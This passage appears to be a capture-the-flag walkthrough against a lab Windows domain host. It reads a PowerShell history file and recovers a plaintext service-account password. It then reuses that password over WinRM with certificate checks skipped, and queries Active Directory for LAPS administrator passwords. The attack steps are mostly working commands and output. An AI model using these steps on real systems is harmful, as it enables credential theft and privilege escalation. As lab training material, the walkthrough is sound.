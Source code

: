 `cd C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine`
`cat ConsoleHost_history.txt`

```txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We found the pasword for user `svc_deploy`
User: `svc_deploy`
Pass: `E3R$Q62^12p7PLlC%KWaxuaV`

Let's try to execute commands as `svc_deploy` ....
`invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /groups}`

```txt
GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
TIMELAPSE\LAPS_Readers                      Group            S-1-5-21-671920749-559770252-3318990721-2601 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

`invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}`
